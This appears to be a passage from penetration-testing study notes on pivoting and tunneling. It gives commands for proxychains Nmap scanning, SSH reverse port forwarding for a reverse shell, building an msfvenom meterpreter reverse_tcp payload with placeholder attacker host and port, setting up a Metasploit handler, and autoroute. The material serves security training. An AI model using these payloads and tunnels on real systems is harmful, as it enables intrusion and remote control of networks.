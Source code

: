 Using Nmap with Proxychains
```shell
proxychains nmap -v -Pn -sT 172.16.5.19
```

## Remote/Reverse Port Forwarding

![Reverse shell over Reverse SSH Port Forwarding](_attachments/Pivoting,%20Tunneling,%20and%20Port%20Forwarding%20Reverse%20shell%20over%20Reverse%20SSH%20Port%20Forwarding.png)

```shell
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

# Meterpreter

## SOCKS Tunneling with Autoroute

Msfvenom payload

```shell
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=PWNIP LPORT=PWNPO -f elf -o 99c0b43c4bec2bdc280741d8f3e40338.elf
```

Metasploit listener

```shell
use exploit/multi/handler
set lhost
set lport
set payload linux/x64/meterpreter/reverse_tcp
```

Creating Routes with Autoroute
```shell
msf6 > use post/multi/manage/autoroute
```
